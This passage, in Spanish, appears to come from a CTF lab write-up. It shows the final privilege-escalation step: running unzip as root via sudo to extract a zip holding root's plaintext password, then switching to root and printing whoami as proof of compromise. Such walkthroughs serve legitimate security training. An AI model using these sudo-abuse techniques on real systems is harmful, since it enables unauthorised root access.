 Ahora sabiendo que el la raiz del sistema existe **secretitosecretazo.zip** podemos aprovecharnos de esto para descomprimierlo y lograr ver su contendio:
```bash
sudo -u root /usr/bin/unzip /secretitosecretazo.zip 
Archive:  /secretitosecretazo.zip
 extracting: sorpresitajiji.txt
```

Revisando el contendio tenemos la password de **root**
```bash
cat sorpresitajiji.txt

root:pedazodepasswordchaval
```

Ahora escalamos a **root**
```bash
# Comando para escalar al usuario: ( root )
su root # ( pedazodepasswordchaval )
```

---

## Evidencia de Compromiso
```bash
# Captura de pantalla o output final
root@5d224b6910dc:/home/baluadmin# whoami
root
```